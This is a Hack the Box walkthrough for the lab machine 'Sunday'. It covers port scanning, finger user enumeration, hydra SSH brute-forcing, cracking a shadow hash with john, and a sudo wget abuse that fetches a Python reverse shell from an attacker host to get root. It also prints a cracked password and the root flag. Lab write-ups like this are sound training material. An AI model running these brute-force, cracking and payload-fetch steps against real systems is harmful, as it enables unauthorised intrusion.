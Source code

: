 ```yaml
---
title: Sunday - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sunday.png
---
```

---
title: Sunday - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sunday.png
---
---
title: 2024-10-12-Sunday - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sunday.png
---
### Scan
```

Host is likely running OpenBSD/Cisco/Oracle


PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer


PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer


PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown


PORT      STATE SERVICE VERSION
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)

```
### Enumeration
finger? - simple network protocols for the exchange of human-oriented status and user information. a relic of a dif time
`finger @10.10.10.76` yields no results, so we can user pentest monkey script for user enum
`./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76`
Only users with valid IP are sunny and sammy![Image](/assets/Screenshot 2024-10-08 at 4.57.28 PM.png)
We can brute force ssh with hydra and rockyou (or be big brain and use box name)`sunday`
`hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh`
![Image](/assets/Screenshot 2024-10-08 at 5.03.15 PM.png)
SSH in with `ssh sunny@10.10.10.76 -p 22022`
### Priv Esc
root troll priv as sunny?
go to root directory, and go to backup dir. thats not usually there boxo
we find shadow backup and cat it ![Image](/assets/Screenshot 2024-10-08 at 5.07.19 PM.png)
see user sammy hash to crack. (no root, come back later)
`john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash`
`cooldude!`![Image](/assets/Screenshot 2024-10-08 at 5.12.04 PM.png)
ssh to sammy
sudo wget priv as sammy
lets use wget on sammy to overwrite root troll and run it as sunny.
create a reverse py shell (pentest monkey )
serve with py server and overwrite w wget
`sudo wget http://10.10.14.11:8000/tmp.py -0 /root/troll`
![Image](/assets/Screenshot 2024-10-08 at 5.21.53 PM.png)
Then, quickly (5s), execute `sudo /root/troll` as sunny. If your listener is set up, you'll get root.
The script is rewritten every 5 seconds, so be quick!![Image](/assets/Screenshot 2024-10-08 at 5.32.10 PM.png)
ROOT:a50977c381dd35e6a1ee3ee5e7041ce4
